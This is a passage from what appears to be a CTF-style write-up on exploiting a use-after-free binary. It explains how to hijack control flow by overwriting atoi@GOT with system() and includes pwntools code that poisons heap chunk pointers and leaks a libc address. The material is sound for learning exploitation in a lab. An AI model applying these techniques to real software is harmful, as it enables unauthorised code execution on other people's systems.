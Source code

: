 ### Hijacking control flow ### 

Next up is hijacking control flow by overwriting a function in the `GOT`. Because we would eventually like to call `system("/bin/sh")`, it would be helpful if there are any functions in the binary already that get called with us controlling the first argument.

If we look at main menu-loop again: 

```c
	while (1) {
		menu();
		printf("> ");
		fgets(val, 8, stdin);
		option = atoi(val);
		switch(option) {
```

We see that conveniently, `atoi()` is called on a buffer called `val` which we control the contents of. In other words, if we overwrite `atoi@GOT` the menu code becomes equivalent to:

```c
	while (1) {
		menu();
		printf("> ");
		fgets(val, 8, stdin);
		option = system(val);
		switch(option) {
```

First of all, lets calculate where `system()` is: 

```python
[...]
libc_system = libc_base + libc.symbols['system']
info(f"libc_system: {hex(libc_system)}")
```


We perform the same steps as with the arbitrary read to create a `fake chunk` that points to `atoi@GOT` and overwrite the address with the address of `system()`

Our full exploit now becomes:

```python
[...]
r = process(["./ld-2.27.so", "./uaf"], env={"LD_PRELOAD":"./libc.so.6"})

e = ELF("./uaf")

# create chunks for arb_read
create(r, b"AAAAAAAA")
create(r, b"BBBBBBBB")

# create chunks for arb_write
create(r, b"CCCCCCCC")
create(r, b"DDDDDDDD")

# perform arb_read 
delete(r, 1)
delete(r, 0)
edit(r, 0, p64(e.got['setbuf'])) # this will corrupt the next pointer

create(r, b"A") # create rule 0
create(r, b"B") # create rule 1

# leak libc
libc = ELF("./libc.so.6")
libc_leak = u64(view(r, 1).strip().ljust(8, b"\x00"))
info(f"libc_leak: {hex(libc_leak)}")
```